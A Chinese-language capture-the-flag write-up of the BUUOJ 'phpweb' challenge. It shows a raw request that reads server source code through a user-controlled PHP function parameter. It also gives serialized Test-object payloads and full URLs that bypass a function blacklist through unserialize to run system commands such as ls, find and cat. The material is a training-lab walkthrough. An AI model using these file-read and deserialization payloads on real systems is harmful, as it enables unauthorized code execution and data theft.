 # [网鼎杯 2020 朱雀组]phpweb

[题目地址](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E6%9C%B1%E9%9B%80%E7%BB%84]phpweb)

进来一张图片直接怼脸。不知道要干啥，看源代码。

```html
<form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</body>
```

这一部分告诉我们往index.php发送post请求，一个参数叫func，另一个叫p。func？函数？结合网站有显示时间，data是php里显示时间的函数，怀疑这里传什么函数进去就执行什么函数，p是参数。我直接一个system，不行，被过滤了。那肯定要看看过滤了什么，平时跑fuzz，今天先尝试能不能直接读取源代码。

```
POST /index.php HTTP/1.1
Host: 3ac3edcc-4c13-48c6-a00b-cfc5d04e9c72.node4.buuoj.cn:81
Content-Length: 48
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://3ac3edcc-4c13-48c6-a00b-cfc5d04e9c72.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://3ac3edcc-4c13-48c6-a00b-cfc5d04e9c72.node4.buuoj.cn:81/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

func=file_get_contents&p=/var/www/html/index.php
```

得到源代码。

```php
   <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

过滤得还挺多，然而没有过滤unserialize。在没有过滤的情况下，unserialize完全可以当成个shell来用。正好题目中有个Test类，处处都在暗示着是个反序列化漏洞。另外获取参数用的是_REQUEST，因此传get也行。

```php
class Test {
        var $p = "ls";
        var $func = "system";
}
$a=new Test();
echo urlencode(serialize($a));
```

注意unserialize漏洞的利用要求程序中一定要有反序列化后的类，比如这里提供了Test类，那我们就不能随机捏造一个这里没有的类。我们传进去的函数得以执行的关键在于[__destruct](http://c.biancheng.net/view/7504.html)，任何脚本运行结束之前会调用对象的析构函数。

- http://3ac3edcc-4c13-48c6-a00b-cfc5d04e9c72.node4.buuoj.cn:81/index.php?func=unserialize&p=O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A2%3A%22ls%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D
> bg.jpg index.php index.php

没有flag。没关系我们用[find](https://www.runoob.com/linux/linux-comm-find.html)命令从根目录开始找。

```php
class Test {
        var $p = "find / -name flag*";
        var $func = "system";
}
$a=new Test();
echo urlencode(serialize($a));
```

find /表示从根目录开始找；-name参数指定要查找的文件名；flag*模糊查询，找名字开头为flag的任何文件，如果直接-name flag就是精准匹配名字为flag的文件，万一flaga就找不到了，但是模糊查询可以。注意因为从根目录开始找，需要的时间比较多。

- http://3ac3edcc-4c13-48c6-a00b-cfc5d04e9c72.node4.buuoj.cn:81/index.php?func=unserialize&p=O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A18%3A%22find+%2F+-name+flag%2A%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D

得到flag在`/tmp/flagoefiu4r93`。

```php
class Test {
        var $p = "cat /tmp/flagoefiu4r93";
        var $func = "system";
}
$a=new Test();
echo urlencode(serialize($a));
```

- http://3ac3edcc-4c13-48c6-a00b-cfc5d04e9c72.node4.buuoj.cn:81/index.php?func=unserialize&p=O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A22%3A%22cat+%2Ftmp%2Fflagoefiu4r93%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D

## Flag
> flag{ccd84867-86c9-40bb-8f46-5b28fb851f68} 